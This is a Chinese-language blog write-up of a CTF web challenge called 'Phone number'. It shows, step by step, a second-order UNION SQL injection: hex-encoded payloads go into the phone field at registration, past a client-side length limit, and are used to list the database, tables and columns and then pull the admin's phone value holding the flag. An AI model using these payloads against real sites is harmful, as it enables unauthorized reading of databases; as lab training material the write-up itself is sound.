 ```yaml
---
title: "web 狗之writeup--phone"
author: Neal
description: ""
tags: [CTF, WEB]
categories: [CTF]
date: "2018-08-23"
---
```


![WechatIMG7.jpeg](https://i.loli.net/2018/08/23/5b7eb1fbdb1b1.jpeg)

鄙人不才，只能做个 web 狗了。那就好好学习 web 吧。拼命地刷 writeup 就好了。上题目，[Phone number](http://106.75.72.168:3333/login.php)。提示只有 phone number is a good thing.

打开链接可以看到是一个登陆页面，查看源代码，没有什么东西。不过，这个页面还有个注册页面，注册页面有用户名密码以及 phone，查看其源代码也没有什么异常情况。这道题初步看来应该是一道 sql 注入题了，那么注入点在哪呢？当然是 phone 了（来自于上帝视角）。

注入点的确就是 phone，不过是要使用 16进制字符。为什么呢？上帝告诉我的，我也不知道。好吧，接下来就是 sql 注入四步曲了，爆数据库名，爆表名，爆字段，最后查数据，拿到 flag。是不是很开心！

## 正常用户

首先，我们首先注册一个正常用户，注册之后登录，可以看到页面。这里面有一个 check 的按钮，点击一下，可以看到页面提示 There only 369 people use the same phone as you。查看源代码，可以看到注释里面有一句话：听说admin的电话藏着大秘密哦，这也是一个小提示。这里面的369应该就是通过 sql 语句从数据库拿到的，语句可能就是类似于 `select count(*) from user where phonenum = 12` 这种的，从而查出和你电话号码一样的用户数了，那么我可以信誓慢慢地告诉你，这就是一个注入点啦！

## 数据库名

因为 phone 可能使用的是数字，所以这是一个数字型的注入。那么，我买可以随便注册一个用户名了，首先获取数据库名的语句是 `1 and 1 = 2 union select database()`，把这个语句转化为16进制字符。将这个16进制字符串作为 phone 来进行注册，这里注意的一个点就是，前台对于 phone 的长度做了限制， `maxlength="11"`，打开开发者工具设置大一点就可以了。注册成功之后，我么就可以看到：

Hello, txt1
Your phone is 1 and 1 = 2 union select database().
Click on the link and you'll know how many people use the same phone as you.

那么我们可以继续点击 check 按钮，页面显示

There only 0 people use the same phone as you
There only webdb people use the same phone as you

这里的 webdb 很显然就是数据库名了。

## 表名

接下来就是表名，这里比较麻烦的就是注入一次，就要注册一次，而且用户名不可以重复。算了，继续吧。构造查表名的语句：`1 union select table_name from information_schema.tables where table_schema = database()`,转化为16进制字符继续注册。再继续登录，点击 check:

There only 29891 people use the same phone as you
There only user people use the same phone as you

现在可以看出表名就是 user 了。

## 字段名

同样的配方，还是同样的味道。查询语句：`1 union select column_name from information_schema.columns where table_name="user"`，点击 check，就会显示出列名：

There only 29893 people use the same phone as you
There only Host people use the same phone as you
There only User people use the same phone as you
There only Password people use the same phone as you
There only Select_priv people use the same phone as you
There only Insert_priv people use the same phone as you
There only Update_priv people use the same phone as you
There only Delete_priv people use the same phone as you
There only Create_priv people use the same phone as you
There only Drop_priv people use the same phone as you
There only Reload_priv people use the same phone as you
There only Shutdown_priv people use the same phone as you
There only Process_priv people use the same phone as you
There only File_priv people use the same phone as you
There only Grant_priv people use the same phone as you
There only References_priv people use the same phone as you
There only Index_priv people use the same phone as you
There only Alter_priv people use the same phone as you
There only Show_db_priv people use the same phone as you
There only Super_priv people use the same phone as you
There only Create_tmp_table_priv people use the same phone as you
There only Lock_tables_priv people use the same phone as you
There only Execute_priv people use the same phone as you
There only Repl_slave_priv people use the same phone as you
There only Repl_client_priv people use the same phone as you
There only Create_view_priv people use the same phone as you
There only Show_view_priv people use the same phone as you
There only Create_routine_priv people use the same phone as you
There only Alter_routine_priv people use the same phone as you
There only Create_user_priv people use the same phone as you
There only Event_priv people use the same phone as you
There only Trigger_priv people use the same phone as you
There only Create_tablespace_priv people use the same phone as you
There only ssl_type people use the same phone as you
There only ssl_cipher people use the same phone as you
There only x509_issuer people use the same phone as you
There only x509_subject people use the same phone as you
There only max_questions people use the same phone as you
There only max_updates people use the same phone as you
There only max_connections people use the same phone as you
There only max_user_connections people use the same phone as you
There only plugin people use the same phone as you
There only authentication_string people use the same phone as you
There only id people use the same phone as you
There only username people use the same phone as you
There only phone people use the same phone as you


可以看到已经出现很多列名了，我们可以看到一些比较关键的列名，比如 username 以及 phone。

## Flag

哈哈，最后一步了！Flag，马上就可以得到啦！由于之前的提示，我们可以知道 admin 的 phone 很重要，那么我们的语句就应该是，必须是：`1 union select phone from webdb.user where username = "admin"`，点击 check，显示：

There only 29894 people use the same phone as you
There only flag{6dd303b0-8fce-2396-9ad8-d9f7a72f84b0} people use the same phone as you
There only 1555555 people use the same phone as you
There only 15500956659 people use the same phone as you
There only 1 people use the same phone as you
There only 123456 people use the same phone as you
There only 111111111111111 people use the same phone as you
There only 11111111111 people use the same phone as you
There only 12345678912 people use the same phone as you
There only 111111 people use the same phone as you

哈哈，常规套路，我的 writeup 也是站在巨人的肩膀上完成的。


